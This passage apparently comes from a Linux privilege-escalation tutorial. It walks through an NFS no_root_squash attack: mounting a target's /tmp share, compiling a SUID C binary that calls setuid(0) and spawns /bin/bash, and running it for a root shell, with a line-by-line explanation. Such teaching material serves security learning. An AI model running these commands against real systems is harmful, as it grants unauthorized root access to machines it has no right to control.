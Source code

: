 **Example** (Run on attacker machine and target):
```bash
# On target: Check NFS configuration
cat /etc/exports
# Output: /tmp *(rw,no_root_squash)

# On attacker: Mount NFS share
mkdir /mnt/nfs
sudo mount -o rw 192.168.1.100:/tmp /mnt/nfs

# Create exploit
echo '#include <stdio.h>' > /mnt/nfs/exploit.c
echo 'int main() { setuid(0); system("/bin/bash"); return 0; }' >> /mnt/nfs/exploit.c
gcc /mnt/nfs/exploit.c -o /mnt/nfs/exploit
chmod +s /mnt/nfs/exploit

# On target: Run exploit
/tmp/exploit
# Spawns root shell
whoami
# Output: root
```

**Word-by-Word Explanation**:
- `cat /etc/exports`:
  - `cat`: Displays file contents.
  - `/etc/exports`: NFS configuration file.
  - *Output*: `/tmp *(rw,no_root_squash)` means `/tmp` is shared with read-write (`rw`) and `no_root_squash`.
  - *Purpose*: Confirms the share allows root-owned files.
- `mkdir /mnt/nfs`:
  - `mkdir`: Creates a directory.
  - `/mnt/nfs`: The mount point.
  - *Purpose*: Prepares a directory for mounting.
- `sudo mount -o rw 192.168.1.100:/tmp /mnt/nfs`:
  - `sudo`: Runs as root.
  - `mount`: Mounts a filesystem.
  - `-o rw`: Specifies read-write access.
  - `192.168.1.100:/tmp`: The target’s NFS share.
  - `/mnt/nfs`: The local mount point.
  - *Purpose*: Mounts the target’s `/tmp` on the attacker’s machine.
- `echo '#include <stdio.h>' > /mnt/nfs/exploit.c`:
  - `echo`: Prints text.
  - `'#include <stdio.h>'`: Includes the C standard library.
  - `>`: Creates/overwrites the file.
  - `/mnt/nfs/exploit.c`: The C source file.
  - *Purpose*: Starts a C program.
- `echo 'int main() { setuid(0); system("/bin/bash"); return 0; }' >> /mnt/nfs/exploit.c`:
  - `echo`: Prints text.
  - `'int main() {...}'`: Defines the main function.
  - `setuid(0)`: Sets the user ID to root (0).
  - `system("/bin/bash")`: Runs a Bash shell.
  - `return 0`: Exits the program.
  - `>>`: Appends to the file.
  - *Purpose*: Creates a program that spawns a root shell.
- `gcc /mnt/nfs/exploit.c -o /mnt/nfs/exploit`:
  - `gcc`: Compiles the C code.
  - `/mnt/nfs/exploit.c`: The source file.
  - `-o /mnt/nfs/exploit`: Names the output binary.
  - *Purpose*: Creates an executable.
- `chmod +s /mnt/nfs/exploit`:
  - `chmod +s`: Sets the SUID bit.
  - `/mnt/nfs/exploit`: The binary.
  - *Purpose*: Ensures the binary runs as root.